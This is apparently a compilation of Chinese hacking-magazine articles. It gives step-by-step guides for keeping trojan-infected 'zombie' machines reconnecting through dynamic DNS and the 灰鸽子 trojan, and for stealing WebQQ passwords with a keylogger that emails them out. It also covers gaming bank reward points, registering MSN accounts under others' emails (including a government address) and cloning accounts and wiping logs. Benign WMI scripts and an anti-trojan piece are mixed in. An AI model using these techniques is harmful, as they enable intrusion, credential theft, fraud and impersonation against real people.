第一步：我们需要注册一个免费的动态域名，我们这里以希网网络全新推出“动态域名服务”为例，大家也可以使用花生壳这类的动态域名转换。我们首先登录希网网络的首页（www.3322.org），接着点击主页中的“新用户注册”链接注册一个新的账户，注册成功后利用该账户登录。

第二步：登录成功后，点击主页中的“动态域名服务”链接，接着在左侧点击“动态域名（DynamicDNS）”下面的“新建”链接。然后在弹出网页的“希网动态域名 用户创建动态域名（DynDns）”列表中正确输入相应的内容，如图 1。

用户只需要在“主机名”选项中填写所需域名的主机名称，主机名称的长度为 3 到 63 个字符，必须是字母、数字和横线。“IP 地址”选项填写域名指向的 IP 地址，默认是用户当前的 IP 地址。其他的选项内容按照默认设置即可，最后点击“确定”按钮就可创建一个免费的动态域名。这里可能有用户要问，既然已经申请了一个免费域名，就直接使用“域名反弹”这种类型，干吗搞这么复杂啊？需要说明的是，3322.org 注册的动态域名属于 DNS 动态域名，而 yeah.net 和 126.com 的都属于跳转域名。跳转域名在转换 IP 地址的同时还可加上连接端口，而 DNS 动态域名只能更新客户端的 IP 地址。

第三步：从希网网络的“客户端下载”网页中下载一个客户端软件，在本地系统中进行安装。现在运行客户端软件，双击任务栏的客户端图标，接着在弹出的窗口中选择“管理账号”标签，在“账号设置”中设置刚刚创建的域名，以及注册的用户名和口令。设置完成后，点击“添加”按钮将其添加到“已注册账号”列表中，以后客户端程序就会定时自动将本地的 IP 地址更新到我们所创建的域名，如图 2。这样肉鸡中的服务端就可以使用这个域名来访问我们的计算机。



图 1 创建动态域名



图 2 设置客户端

第四步：在本地计算机架设 FTP 服务器和 Web 服务器，架设 FTP 服务器和 Web 服务器有很多，灰鸽子木马就提供了这样的功能。运行灰鸽子木马，点击“工具”菜单下的“FTP 服务器”，设置 FTP 服务所需要的目录，以及服务端口、用户名及密码，然后点击“开启服务”按钮就可以了，如图 3。为了以后方便使用，最好将“程序启动时自动开启 FTP 服务”选项选中。Web 服务更简单，只需设置 Web 服务目录和端口，点击“开启服务”按钮即可。这里需要注意，如果用户使用了网络防火墙，需要打开相应的服务端口；还有就是 FTP 服务器和 Web 服务器所设置的必须是同一个目录才行。

第五步：开始配置服务端程序，Web 服务用于服务端程序的连接。在“自动上线设置”中按照空间反弹的类型进行设置，比如：http://mynohack.3322.org/ip.jpg，如图4。

由于希网网络的客户端程序已经将本地的 IP 地址更新到域名，所以服务端程序访问的将是本地 Web 服务器中的文件 ip.jpg。

第六步：以后每次登录网络后，只需要将本地当前的 IP 地址更新到 ip.jpg 即可，FTP 服务器就提供 IP 地址的更新。点击木马客户端的“Ftp 更新 IP”面板，根据你所设置的 FTP 服务器的情况来进行设置。比如“FTP 服务器”就是本机当前的 IP 地址，在“存放 IP 的文件”后输入 FTP 路径加文件名，如果是保存在 FTP 根目录下就直接写文件名，例如用于服务端连接的 ip.jpg，如图5。

## 三、小结

到此为止，我们已经在本机架设了一个永远的“鸡舍”。这种方法吸收了“域名反弹”和“空间反弹”两种方法的长处，从而有效避免了其中每一种方法可能出现的问题。这样以后就再也不会出现肉鸡大量丢失的情况了，当你第二天打开电脑的时候，可不要被扑面而来的肉鸡吓着啊。

> **编辑点评：**
> 利用动态域名配合电脑做的 Web 服务器来做 IP 重定向，这样的确能够提高肉鸡反弹的成功率，但采用这种方法，有可能被中马者直接得到你的 IP，所以也要小心哦。你可以在本机模拟一个虚拟主机提供商，然后将更新的 IP 加密，或者动态指向另一个域名。

## 菜鸟玩转 WMI 之实例篇

首语：

天冷了，放假了，这个时候总是菜鸟进行恶补的大好时机。有时间了，躲在家里看看书上上网，幸福的生活啊。有心玩票的话，可要趁现在努力咯。

风飘雨

### 从本文中你可以学到：

- 一、WMI 配合 VBS 脚本的应用
- 二、根据自己的需要修改 WMI 脚本

在上一篇中，我们介绍了 WMI 的基础知识。在本篇中，我们将用具体的 VBS 实例来继续我们的学习，大家通过这些具体的应用，可以对 WMI 有更深入的了解。WMI 的基本用法上一期已经讲解了，这里就不再啰嗦了，有不明白的地方请查阅上期杂志。

首先兑现上期的承诺，给大家看一个监视 U 盘的代码：

```vbscript
strComputer = "."
set objWMIService = GetObject("winmgmts:" _
& "{impersonationLevel=impersonate}!" & strComputer & "\root\cimv2")
set colMonitoredEvents = objWMIService. _
ExecNotificationQuery("Select * from Win32_VolumeChangeEvent")
Do
set objLatestEvent = colMonitoredEvents.NextEvent
Wscript.Echo objLatestEvent.DriveName
Loop
```

把它另存为一个 udisk.vbs 运行就可以看到效果。当你运行脚本后，不会有任何反应，但当你插入一个 U 盘时，系统会立刻弹出如图1的提示，说明有 U 盘插入电脑了，并且盘符是“I：”。

不难看出，这个脚本是利用 WMI 来监视磁盘标识符的变化，当发现变化时就执行“Wscript.Echo objLatestEvent.DriveName”将盘符输出。而如果你编程，就可以将这句替换为你需要的代码了，比如将这个磁盘里的东西偷偷复制出来，这就是前段时间出现的 U 盘小偷类软件做的事情；而将自动运行文件复制进去，这就是一段 U 盘病毒自动传播部分的代码了。

这只是一个 WMI 的小例子。在磁盘方面，再举一个例子，假如我们想监视磁盘的数据读写，那就用下面的脚本吧：

```vbscript
strComputer = "."
Set objWMIService = GetObject("winmgmts:" _
& "{impersonationLevel=impersonate}!" & strComputer & "\root\cimv2")
Set objRefresher = CreateObject("WbemScripting.SWbemRefresher")
Set colDiskDrives = objRefresher.AddEnum _
(objWMIService, "Win32_PerfFormattedData_PerfDisk_LogicalDisk").objectSet
objRefresher.Refresh
For i = 1 to 500
For Each objDiskDrive in colDiskDrives
Wscript.Echo "Drive name: " & objDiskDrive.Name
Wscript.Echo "Disk bytes per second: " & objDiskDrive.DiskBytesPerSec
Next
Wscript.Sleep 2000
objRefresher.Refresh
Next
```

这个脚本将实时检测各个磁盘的字节数，然后输出，如果你管理过服务器你会知道这个值多有用。

而在服务方面，WMI 也有杰出的表现，例如如下这一段脚本：

```vbscript
set objIdDictionary = CreateObject("Scripting.Dictionary")
strComputer = "."
Set objWMIService = GetObject("winmgmts:" _
& "{impersonationLevel=impersonate}!" & strComputer & "\root\cimv2")
set colServices = objWMIService.ExecQuery _
("Select * from Win32_Service Where State <> 'Stopped'")
For Each objService in colServices
If objIdDictionary.Exists(objService.ProcessID) Then
Else
objIdDictionary.Add objService.ProcessID, objService.ProcessID
End If
Next
colProcessIDs = objIdDictionary.Items
For i = 0 to objIdDictionary.Count - 1
Set colServices = objWMIService.ExecQuery _
("Select * from Win32_Service Where ProcessID = '" & _
colProcessIDs(i) & "'")
Wscript.Echo "Process ID: " & colProcessIDs(i)
For Each objService in colServices
Wscript.Echo VbTab & objService.DisplayName
Next
Next
```

代码比较长，大家可以慢慢看。代码首先用一个 For 遍历所有正在运行的服务，然后利用 For 嵌套查询出每个服务运行在哪个 PID 下。也就是说，这段脚本可以清楚地显示出哪个进程中运行了哪些服务！

如图2（为了显示方便，笔者采用了 cscript 运行脚本）。这对查找病毒可有不少帮助哦，比如说“svchost.exe”，现在你可以很容易地分辨出哪个是真的，哪个是有问题的了。

如果你发现了有问题的服务，那怎么办呢？你同样可以利用 WMI 来删除某个服务，就用下面的脚本：

```vbscript
strComputer = "."
Set objWMIService = GetObject("winmgmts:" _
& "{impersonationLevel=impersonate}!" & strComputer & "\root\cimv2")
set colListOfServices = objWMIService.ExecQuery _
("Select * from Win32_Service Where Name = '你要删除的服务名'")
For Each objService in colListOfServices
objService.StopService()
objService.Delete()
Next
```

只要将脚本中“你要删除的服务名”改成你要删除的服务名，运行脚本，这个服务就会被彻底删除了。如果你中了服务启动的木马，就用这个脚本干掉它吧。

这个脚本的执行过程和我们以前的例子差不多，不同的是这里定位到目标服务后，我们不是显示出它的信息，而是直接调用 StopService() 和 Delete() 方法，将服务停止和删除。WMI 除了可以查询和监视系统资源属性外，还可以调用不同的方法来对资源进行创建、更改、删除等操作，所以可以借此来设置和管理你的计算机。这就是它的强大之处。

再给大家一个关于日志的例子吧，如果我们想只查看某一天的日志，那该怎么办？就用下面的脚本吧：

```vbscript
Const CONVERT_TO_LOCAL_TIME = True
Set dtmStartDate = CreateObject("WbemScripting.SWbemDateTime")
Set dtmEndDate = CreateObject("WbemScripting.SWbemDateTime")
DateToCheck = CDate("12/18/2006")
dtmStartDate.SetVarDate DateToCheck, CONVERT_TO_LOCAL_TIME
dtmEndDate.SetVarDate DateToCheck + 1, CONVERT_TO_LOCAL_TIME
strComputer = "."
Set objWMIService = GetObject("winmgmts:" _
& "{impersonationLevel=impersonate}!" & strComputer & "\root\cimv2")
Set colEvents = objWMIService.ExecQuery _
("Select * from Win32_NTLogEvent Where TimeWritten >= '" _
& dtmStartDate & "' and TimeWritten < '" & dtmEndDate & "'")
For each objEvent in colEvents
Wscript.Echo "Category: " & objEvent.Category
Wscript.Echo "Computer Name: " & objEvent.ComputerName
Wscript.Echo "Event Code: " & objEvent.EventCode
Wscript.Echo "Message: " & objEvent.Message
Wscript.Echo "Record Number: " & objEvent.RecordNumber
Wscript.Echo "Source Name: " & objEvent.SourceName
Wscript.Echo "Time Written: " & objEvent.TimeWritten
Wscript.Echo "Event Type: " & objEvent.EventType
Wscript.Echo "User: " & objEvent.User
Wscript.Echo objEvent.LogFile
Next
```

这个脚本将从日志中查询出 2006 年 12 月 18 日的日志，并列出来，你可以更改脚本里的日期到你想查询的日期。

看了这么多实例，有没有冲动利用 WMI 自己做一个脚本呢？只要掌握好方法，DIY 一个 WMI 脚本还是很容易的。

- 1. 第一步，找到与你目标功能相关的 WMI 代码。因为以我们现在的水平，还远远达不到能自己查询对象的属性和方法，自己写一个查询出来的程度，所以最好的方法就是利用现有的代码，如上文中的代码都可以进行修改，改成你需要的东西。而这些代码在网上并不难找。
- 2. 第二步，看懂找到的代码。这步说起来简单，但做起来并不容易，这需要你结合上期文章的内容，对脚本进行分析。一般的，都是将输出结果的部分去掉，替换成自己需要的功能代码。
- 3. 第三步，替换代码，调试执行。只要找到能被替换的代码，在这里，你应该可以调用你要操作的对象的所有属性和方法了。现在你只要把它原先的代码去掉，换成自己的代码，来调用这个对象的属性或方法，就可以完成你的 DIY 了。

例如现在我们想利用 WMI 制作一个“守护进程”，功能是监视一个程序（cmd.exe），如果这个程序被终止就会自动重建，你可以用它来保证某个程序会一直运行（可以用到某些管理软件中）。

这个是用到进程方面的代码，我们只要监视这个进程（cmd.exe）的结束，然后重建进程就可以了。在网上我们很容易地找到这样一段代码：

```vbscript
strComputer = "."
Set objWMIService = GetObject("winmgmts:" _
    & "{impersonationLevel=impersonate}!" & strComputer _
& "\root\cimv2")
Set colMonitoredProcesses = objWMIService. _
    ExecNotificationQuery("select * from _
_instancedeletionevent " _
    & "within 1 where TargetInstance isa 'Win32_Process'")
i = 0
Do While i = 0
    Set objLatestProcess = colMonitoredProcesses.NextEvent
    Wscript.Echo objLatestProcess.TargetInstance.Name
Loop
```

这段代码的作用是监视进程的结束，然后将结束进程的进程名显示出来。

通过分析我们得知，这段代码每隔 1 秒检测一次，而它的输出语句是“Wscript.Echo objLatestProcess.TargetInstance.Name”，这段代码就是我们可以替换的。从这段代码也可以看出，“objLatestProcess.TargetInstance.Name”属性就是已经结束掉的进程的进程名。那这段代码我们就可以改为：

```vbscript
strComputer = "."
Set objWMIService = GetObject("winmgmts:" _
    & "{impersonationLevel=impersonate}!" & strComputer _
& "\root\cimv2")
Set colMonitoredProcesses = objWMIService. _
    ExecNotificationQuery("select * from _
_instancedeletionevent " _
    & "within 1 where TargetInstance isa 'Win32_Process'")
i = 0

Do While i = 0
    Set objLatestProcess = colMonitoredProcesses.NextEvent

    if objLatestProcess.TargetInstance.Name = "cmd.exe" then
        set WshShell = CreateObject("WScript.Shell")
        WshShell.run objLatestProcess.TargetInstance.Name
    end if

Loop
```

也就是把那句输出语句改成：

```vbscript
if objLatestProcess.TargetInstance.Name = "cmd.exe" then
    set WshShell = CreateObject("WScript.Shell")
    WshShell.run objLatestProcess.TargetInstance.Name
end if
```

也就是判断这个被结束的进程名字是不是“cmd.exe”，如果是的话，就重新执行这个进程。你可以运行一下这个脚本查看一下效果。脚本运行后，再打开 cmd，结果 cmd 再也关不掉了。

这只是一个很简单的脚本修改，实质上利用 WMI 和 VBS 配合（有时甚至可以加上 HTA 等的配合），可以写出许多相当强大的脚本。

本文介绍了几个具体的实例，希望大家能对 WMI 的应用有更深的认识。而有时候利用脚本并不是很方便，针对一般用户的临时应用，我们有更好的解决方案，那就是“WMIC”，它是 WMI 的“cmd”，是命令行的“精品”。它的功能更强大，使用更简单。更精彩的内容“WMIC”，将在下期为大家呈献。

## 编辑点评：

本文重在应用，而 WMI 并不是一个很容易的东西，大家要在应用中积累经验，才能有所进步。希望文中的实例大家能够亲手调试修改一下。而对于我们这种“业余”应用，某种意义上说 WMIC 才是重头戏，但其涉及的东西太广，风飘雨不能给大家把所有东西都讲解了，所以这里建议大家最好自己找资料“预习”和“自学”一下。

## WEBQQ 密码我来盗

### 首语：

WebQQ 的改版，还是没有把全部问题解决，毕竟现在是基于浏览器的。这不，现在就爆出了一个能被人利用非法登录的缺陷。建行的服务如今也可以“洗刷刷”，看来建行和腾讯之间缺少沟通啊。而 Hotmail 这个月也被发现存在验证不严的问题，以后用 MSN 也要小心被钓鱼了。看来进入寒冬，气温也不会变凉啊。

### 从本文中你可以学到：

- 一、利用 WSockExpert 来抓取数据
- 二、盗取 WebQQ 的密码

让我们测试一下看还能不能得到 QQ 和 SSL 加密密码呢？

首先拿出 WSockExpert 这个抓包工具，选好 WebQQ 进行监视，然后再用 WebQQ 登录，很快结果就出来了，如图1。

在《黑客手册》12 月的杂志里，我曾经写了一篇介绍 WebQQ 的文章，相信《黑客手册》的读者都记得吧。其中官方的介绍说：“为了保障您的账号安全，采用了 SSL 加密技术。”当时我也相信了，因为并没有在网上找到关于 SSL 解密的软件。但是否像官方所说的那样真的保障了用户账号的安全呢？那就接着往下看吧。

在 WebQQ 刚刚推出的时候，每次登录时 IE 状态栏都会显示其 QQ 号码和 SSL 加密后的密码。虽然密码用 SSL 加密了，但总觉得还不安全，因为如果我们点记住密码登录 WebQQ 的话，以后再去登，SSL 加密后的 QQ 密码都会自己躺在密码输入框里。这就是说，只要我们得到了 QQ 及 SSL 加密后的 QQ 密码，同样可以利用 WebQQ 登录这个 QQ。不过现在 WebQQ 改进了这个 BUG，那就

SSL 加密后的密码是 e70b79815f8044*****de8e250b2625，看来并不是官方所说的那样绝对的安全啊。我们测试用的是 WSockExpert 抓包工具，起不到实际盗密码的作用，但如果换成是 IE 密码监视工具，那就照样能拿到 SSL 加密后的密码了。不过只是拿到加密后的密码又不能改，不过瘾！那就换个键盘记录器来试试。拿出我收藏已久、正嫌派不上用场的红蜘蛛键盘记录器，如图 2。

红蜘蛛键盘记录器可以根据你设置的窗口标题关键字去获取指定窗口的键盘输入，功能十分强大。在“设置窗口标题关键字”一栏中添加 WEBQQ 的窗口标题关键字，然后设置完收信邮箱等信息之后，将发信间隔时间设置为 5 分钟，因为是测试，不必用默认设置那么久。如果大家使用，最好设置的间隔时间长一些，不然邮箱会爆满的。设置这些之后点击生成服务端，然后自己运行，接着马上登录 WEBQQ 让自己中招。等了几分钟后，登录邮箱查看，如图 3。

密码截取到了，文章也该结束了。不过要补充一点的是，如果在 WEBQQ 的登录框选择了自动登录的话，键盘记录器就没法截取密码了。

> 编辑点评：新事物都有不完善的地方，WEBQQ 还是没逃得过键盘记录，虽然说只能用得到的密码登录，但再运用点社会工程学，也许会有不少收获。

## 【惊爆：】建设银行积分，我们都来洗刷刷

- 从本文中你可以学到：
- 通过财富通来刷建行积分

相信大家都用过建设银行。前段时间，建行为了鼓励用户多使用网上银行的功能，特此开通了网络银行的积分活动，凡是每在网上消费一元就可获得 1 分，依此类推。到一定的时间建行会举办相应的积分大抽奖活动，所以这个积分令我们都很心动。但是毕竟这个积分是要用钱来换取的，所以想获取很多积分要花费大量的 money，这显然是得不偿失的。今天我就来教大家利用财富通不花 1 分钱来获取大量的积分。

好了，我们直接进入正题吧。

首先介绍一下它的原理。大家都知道，QQ 的财富通是腾讯为了广大 QQ 用户在网上交易时能够方便快捷而开发的一个系统。当我们使用它的时候，我们首先要通过网上交易的方式往里面充值，然后在网上买东西、做网上交易。这时你充多少值，你的网上电子银行就会增长相应的积分。当我们需要钱的时候可以“提现”，将 QQ 财富通里的虚拟币转换为人民币，让 QQ 的工作人员次日把现金打到你的卡上。在这个过程中，你的钱一分都不会少，但是工作人员把钱打给你后，你的积分却不动，我们就可以利用这个来一次一次地刷积分了。

我们首先来到 http://www.tenpay.com/，用自己的 QQ 号注册一下（这一步我就不需要说了吧），然后选择左边的账户充值，如图 1。

然后系统会提示你输入金额以及选择银行，如图 2。在这里因为我们要刷建设银行的积分，就选择建设银行吧！在充值金额里，我们要输入要充值的金额，我们输入得越多，当然刷的分就越多了（小弟弟在这里输入 20 了）。

提交后，系统会让你确认一下，我们直接点击确认。

这时就会弹出建设银行的缴费界面，如图 3。

我们输入证件号码以及密码之后，点击“下一步”，系统就会提示成功了，如图 4。

图 3 银行缴费界面

图 4 充值成功

再来建行 CCB 网上银行积分中心查看一下，积分果真上涨了。呵呵。

下面我就教大家如何把钱弄回来。我们再次来到腾讯财富通主页，选择左边一栏的“提现”，就来到了如图 5 所示的界面。

图 5 账户提现的界面

我们输入提现的金额以及财富通密码，然后确认，这时就会提示财富通正将钱打到你的卡上了。大约过 2 天，钱就回到你的账户上了。毕竟这一步人家工作人员是手动的，需要时间。如图 6。

图 6 提示申请成功

好了，到此为止这种方法就介绍完毕了，我们可以 2-3 天一个轮回来刷积分了。大家可以自己去实验，但需要提示的是，玩什么要有个度，千万别过度，否则那些叔叔阿姨们会冷冻你的钱哦！

> **编辑点评：**
> QQ 的财富通也可以用来刷建行的积分。特别是这样比较大的机构，更容易有疏忽的地方，小菜们好好利用哦。不过一定不要过火。

## Hotmail 漏洞

李嘉义

### 抢注国务院办公厅的 MSN

- **从本文中你可以学到：**
- 利用 MSN 的缺陷抢注账号

MSN 是一个国际流行的即时通讯工具，尤其在商务交流中的地位 QQ 远不可及。很多公司只允许上 MSN 而不允许上 QQ。然而 MSN 的登录账号却不像 QQ 那样去使用申请来的数字，而是用邮箱作为登录账号。

获得 MSN 账号主要有两种方式。其一，是在 MSN 的官方网站上申请 @msn.com 或 @hotmail.com 邮箱的同时绑定账号；另外就是使用自己的邮箱在 MSN 的官方网站上登记注册。问题就出在这第二种方式上。

在使用自己邮箱登记 MSN 账号时，MSN 虽然提示会给那个登记的邮箱发信，然而却没有进行有效性验证，造成可任意伪造邮箱格式进行 MSN 的账号注册。

严格来讲，这不算什么漏洞。然而当有人抢占了本属于别人的账号时，拥有邮箱的本人无法使用自己的邮箱作为 MSN 账号时，这时也许算得上漏洞了吧。再或者当有人恶意抢注了国家重要机关的邮箱作为 MSN 账号进行恶意诈骗时，这时也许算得上漏洞了吧！

在中华人民共和国中央人民政府门户网站成立不久，我恰巧发现了这个漏洞。于是顺手注册了一个国务院办公厅的 MSN（ljy@gov.cn）。与人聊天时，很多人都会问我是不是在国务院就职。哈哈，看来唬人还蛮容易的。还好我只是玩玩，不会做坏事。

下面公开抢注过程，希望大家本着玩玩的态度，抢注之后，做一个守法的好公民 ^_^

### 抢注过程：

- 1. 打开 http://get.live.com/spaces/overview 这个网址，点击“免费试用”按钮进入注册页面，如图 1。
- 2. 在注册页面里面点选“使用您自己的电子邮件地址”并输入你要抢注的邮箱名，如图 2。其它注册步骤不详细讲解，按照注册页面的要求一步步地填写即可。
- 3. 注册提交完成后，会提示你是否注册 MSN 空间（相当于博客），这里看你自己的需要啦，有需要就确定，不需要取消就可以了。然后下载并安装好 MSN 软件，7.0 以后的版本叫 Live Messenger。
- 4. 用刚刚注册的账号登录 MSN，即可开始你的聊天生活了，如图 3。

图 1 进入注册页面

OK，兄弟们快行动吧。此文到此结束，没有什么技术含量，仅作为自己的乐趣与大家分享好了。同时也希望 MSN 官方能尽快验证邮箱的有效性，不然被坏人利用了可不好！

> 编辑点评：这只能算是一个安全缺陷，但缺陷也会造成问题。虽然说抢注 MSN 账号不同于抢注域名能取得一定的经济利益，但如果利用抢注的 MSN 来钓鱼呢？

## 让 QQ 医生守护 QQ 号

Apple 旭

- 从本文中你可以学到：
- 用 QQ 医生防止 QQ 木马

还在为 QQ 盗号木马的干扰而发愁吗？快请出 QQ 医生来帮助你吧！QQ 医生是腾讯公司针对盗取 QQ 密码的木马病毒刚刚开发出的一款盗号木马专杀工具。

赶快安装工具看一下吧。如图 1 是工具的界面。操作十分简单，点击开始扫描即可。

一会儿便扫描完成，如图 2，速度还是不错的。

我随手找了几个以前的木马试验一番，果然把它 kill 掉了。不过它还是不能完全使我放心，于是我就到网上找了几个最新的免杀木马。没想到，工具竟然打不开了。真是郁闷，再一次证明了腾讯做的专杀软件也不过如此，大家也不能随便相信，腾讯真是需要改进啊。

但是我们照样可以依靠这个工具巧妙地判断木马的存在！

如果是不免杀的木马，一般都会被它查到，然后清除。而免杀的木马虽然不能被它查到，但是每当我们打不开此软件的时候，也可以说明你中木马啦。

每周使用 QQ 医生一次，能降低 90% 以上 QQ 账号被盗取的风险；特别是在网吧上网的朋友，每次登录 QQ 前，最好使用 QQ 医生检测一下，能降低 95% 以上 QQ 密码泄露的风险。

如果你是在网吧之类的地方，也可以到 http://safe.qq.com/cgi-bin/tso/show_tso?intype=2 在线扫描，只需要下载一个插件就可以了。

> 编辑点评：腾讯毕竟不是做杀毒软件的公司，QQ 医生也只能作为防木马的辅助工具，要确保 QQ 的安全，还是需要平时多留心的。

## 非会员不想再等待——QQ 网络硬盘

罗乘琨 周浩

今天，登录 QQ 打开我的网络硬盘，可是却被告知“对不起，您不在操作队列中，请耐心等待”，我一看前面还有好几万人才轮到我呢，我直接晕了，如图 1。

由于以前我一直是 QQ 会员，从来没遇到过这种情况，网络硬盘用得也特别顺手。前几天我的会员刚刚过期，腾讯这么快就拿出“千年等一回”的酷刑折磨我。

由于工作原因，我要经常使用网络硬盘的，难道以后都要排队么？那不是在浪费我的宝贵青春么？不在沉默中爆发，就在沉默中 BT。

我决定……BT……是不可能的，否则，我怎么对得起已经忍饥挨饿读到这一行的亲爱的读者。

几个小时过去了，我终于找到了两种非会员不用等待就能直接打开网盘的方法，这里和各位分享一下，请听我一一道来。

### 方法一、使用 TM

可能是 QQ 用户要远比 TM 用户多吧，腾讯对 TM 的限制非常少。比如说，普通 TM 用户会有 32M 的网络硬盘空间，是普通 QQ 用户的两倍，而且 TM 用户还具有 QQ 会员才拥有的寄友功能。当然这次，我又发现了使用 TM 会免去网盘排队等待的烦恼，方法很简单。其实很多时候都是这样的，解决问题的思路比解决问题的手段重要得多。换句话说，看到别人文章的时候，我们也许多会说，这么简单，我也会啊，但是你想过没有，当遇到问题的时候，自己是否主动思考过。扯了几句大道理，大家不要嫌我废话，进入正题。

首先，登录 QQ，右击系统托盘中的 QQ 图标，左击左下角的“使用 TM”选项，如图 2。

这样就进入了 TM 模式，接着打开网络硬盘，呵呵，你就会发现无须等待就可以上传下载任何文件了，如图 3。

### 方法二、替换文件

我在 06 年 7 月《弱不禁风的 nProtect 键盘加密技术》一文中，曾经利用修改 QQ 根目录下的一个文件来达到破坏键盘锁的目的。那么 QQ 网络硬盘是否也能这样呢？经过我的仔细研究，发现使用 QQ 网络硬盘时会调用 QQ 文件夹目录下的一个 QQNetDisk.dll 动态链接库文件，并通过这个文件实现上传、下载等一系列的操作。幸好已经有高手做好了另外一个同名的文件，只要我们从网上下载 QQNetDisk.dll 的补丁文件后，用它去覆盖替换 QQ 安装目录下（一般在 C:\Program Files\Tencent\QQ 中）的同名文件即可（下载地址 http://www.piaodown.com/down/soft/18052.htm）。下载完毕将压缩包解压。

将解压得到的名为“QQNetDisk.dll”的文件复制到 QQ 的安装目录下，如图 4。

然后重新启动 QQ，再次进入网络硬盘，怎么样，非会员的你，也可以享受会员的同等待遇了！

方法就是这么简单，相信大家都会操作，只要我们细心观察，自由随时都会伴随我们！

> 编辑点评：很容易上手的两种 QQ 技巧，实践和思考，你也能发现很多的技巧。

星云：也许是平时不去注意时间的关系，2006 年就这样地过去了，悄无声息，就好像没有经历过一样。说起来这也只能算感悟，06 年还是有很多值得我们回忆的东西的。我看到很多以前是菜鸟的朋友慢慢地在我们的园地中成长起来，越来越多的朋友开始有意识地写文章分享自己的发现和学习心得。我们很高兴看到在《黑客手册》中成长起来的朋友的进步，并诚挚欢迎所有想要发表自己见解和看法的朋友投稿给我们。《黑客手册》将在大家的支持下注入更强大的生命力，成为广大对安全感兴趣的朋友的良师益友，一起来玩吧！

## 记一款短小精悍的小工具——All In One

- 从本文中你可以学到：命令行工具 AIO 的用法

今天给大家介绍一款容量只有 41K，却有着非常强大功能的小工具，下面我们来看看它的强大功能吧！

打开 CMD，进入 All In One 的存放目录，我这里将它放在 E 盘里，输入：aio，看看它有哪些功能吧！如图 1。

居然有 30 来项的功能！下面我就来一一介绍一下吧！

### 1、AutoRun - 查看启动项

输入命令：aio -autorun，就可以非常详细列出系统中所有的启动项，包括注册表里面的，对查找木马非常有用。如图 2。

### 2、Clone - 克隆账户

输入命令：Aio.exe -Clone xtaflf guest 123456（xtaflf 是系统中正常的账户，guest 是要被克隆成的账户，123456 是克隆账户 guest 的密码）。这个克隆账户是不需要在 system 权限下也可以用的，不过在克隆账户的时候，被克隆账户一定是系统中存在的账户，如图 3。

### 3、CheckClone — 检测克隆账户

输入命令：Aio.exe -CheckClone，在不需要 system 权限下也可以使用，如图 4。

图 4 AIO 检查克隆账户

### 4、CleanLog — 清除系统日志

输入命令：Aio.exe -CleanLog，将清除系统所有日志信息。

### 5、ConfigService — 修改服务的启动类型

Aio.exe -ConfigService 服务器 启动类型

如：将系统服务 telnet 启动设为手动，输入命令：Aio.exe -ConfigService telnet Demand；设为自动，输入命令：Aio.exe -ConfigService telnet Auto；设为禁用，输入命令：Aio.exe -ConfigService telnet Disabled。

### 6、DelUser — 删除系统账户

输入命令：Aio.exe -DelUser 123（注：123 是系统的账户，这个命令还可以删除系统内建的账户，如 administrator、Guest 等账户，小心使用），如图 5。

图 5 AIO 删除账户参数

### 7、EnumService — 列举系统服务

输入命令：Aio -EnumService All，可以列出系统中所有的服务；输入命令：Aio -EnumService Running，可以列出系统中正在运行的服务；输入命令：Aio -EnumService Stopped，可以列出系统中所有停止运行的服务。

### 8、FHS — 检查系统隐藏服务

